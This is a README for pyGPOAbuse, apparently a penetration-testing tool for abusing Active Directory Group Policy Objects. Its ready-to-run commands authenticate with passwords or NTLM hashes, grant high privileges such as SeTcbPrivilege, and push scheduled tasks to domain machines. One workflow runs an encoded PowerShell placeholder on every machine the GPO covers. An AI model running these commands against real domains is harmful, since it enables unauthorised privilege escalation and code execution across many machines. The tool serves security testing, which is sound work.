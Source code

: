 # pyGPOAbuse

A Python implementation of GPO Abuse techniques, inspired by [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse).

## Overview

This tool allows you to abuse Group Policy Objects (GPOs) in Active Directory environments. It provides the following capabilities:

1. Add user rights to an account in a GPO
2. Add scheduled tasks to a GPO 
3. Backup a GPO before modification
4. Restore a GPO after modification

## Features

- **Add user rights**: Assign specific rights to a user account through GPO
- **Add scheduled tasks**: Create tasks in GPOs that will be executed on targeted computers/users
- **Backup/Restore GPOs**: Safely backup a GPO's state before modification and restore it later

## Usage

### General Syntax

```
python pygpoabuse.py <domain>/<username>[:<password>] [options]
```

### Authentication Options

```
-hashes LMHASH:NTHASH   Use NTLM hashes for authentication
-k                      Use Kerberos authentication
-dc-ip IP               Domain controller IP or hostname
-ldaps                  Use LDAPS instead of LDAP
-ccache FILE            ccache file for Kerberos authentication
```

### Adding User Rights

```
python pygpoabuse.py domain/username:password --add-rights -gpo-id "{GUID}" -rights "SeTcbPrivilege,SeBackupPrivilege" -user-account "targetuser"
```

### Adding Scheduled Tasks

```
python pygpoabuse.py domain/username:password --add-task -gpo-id "{GUID}" -taskname "Maintenance" -command "cmd.exe" -user
```

Use `-user` to create a user GPO task, otherwise it will create a computer GPO task.

### Backing Up a GPO

Before making changes to a GPO, you can create a backup:

```
python pygpoabuse.py domain/username:password --backup-gpo -gpo-id "{GUID}" [-backup-dir "/path/to/backups"]
```

This will create a backup of the GPO and return a backup ID (also printed to the console). You can optionally specify a directory to store the backup with `-backup-dir`.

### Restoring a GPO

After you're done with your operations, you can restore the GPO to its original state:

```
python pygpoabuse.py domain/username:password --restore-gpo -backup-id "gpo_backup_{GUID}_{TIMESTAMP}"
```

Alternatively, you can specify the backup directory directly:

```
python pygpoabuse.py domain/username:password --restore-gpo -backup-dir "/path/to/backup_folder"
```

## Example Workflow

This example demonstrates a complete workflow for safely abusing a GPO:

1. First, backup the GPO:
```
python pygpoabuse.py domain/admin:password --backup-gpo -gpo-id "{GUID}"
```

2. Add a scheduled task to the GPO:
```
python pygpoabuse.py domain/admin:password --add-task -gpo-id "{GUID}" -taskname "Update" -command "powershell.exe -encodedcommand {BASE64}" -powershell
```

3. After completing your operations, restore the GPO:
```
python pygpoabuse.py domain/admin:password --restore-gpo -backup-id "gpo_backup_{GUID}_{TIMESTAMP}"
```

## Credits

- This tool is a Python implementation of [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) by @pkb1s
- Thanks to @airman604 for [schtask_now.py](https://github.com/airman604/schtask_now) that was used and modified in this project

